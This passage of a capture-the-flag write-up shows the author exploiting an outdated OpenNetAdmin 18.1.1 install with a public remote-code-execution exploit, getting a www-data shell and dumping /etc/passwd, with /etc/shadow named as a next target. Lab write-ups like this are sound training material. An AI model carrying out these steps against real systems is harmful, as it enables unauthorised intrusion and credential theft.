 There is a warning on the web page. Warning the user that the latest version has not been updated. We are still running an older version: 18.1.1


**FOOTHOLD/EXPLOITATION**

We can immediately look for an exploit using this information.Using [exploitDB](https://www.exploit-db.com/) and searchsploit, we see a few results to do with the same version. 

Let's try out this [exploit](https://www.exploit-db.com/exploits/47691). We can download and run it in our terminal.
```
47691.sh: 23: Syntax error: "done" unexpected (expecting "do")
```  
Hmm. 

*For this writeup, I ended up using a [python version of this script](https://github.com/amriunix/ona-rce).
However, I did go back a little later, to figure out and get my head around the initial error.
Looking around on my browser, I found [this thread](https://unix.stackexchange.com/questions/440197/bash-for-loop-not-working) discussing a similar issue.
According to one of the users, the script file was likely a DOS text file, creating a reading confusion for bash because of the return **\r**. Using the tool **dos2unix** would have successfully converted the file to a Unix text file.* 

Back to the writeup.
Running the python script, we quickly get a shell as www-data. Also a good time to upgrade our shell, making sure we have a full TTY stable shell.
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ /usr/bin/script -qc /bin/bash /dev/null
www-data@openadmin:/opt/ona/www$
``` 
The first command we should always run, is checking if there are any readable files of interest. 
Files such as:
/etc/passwd
/etc/shadow
/etc/crontab

```
www-data@openadmin:/opt/ona/www$ cat /etc/passwd
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
```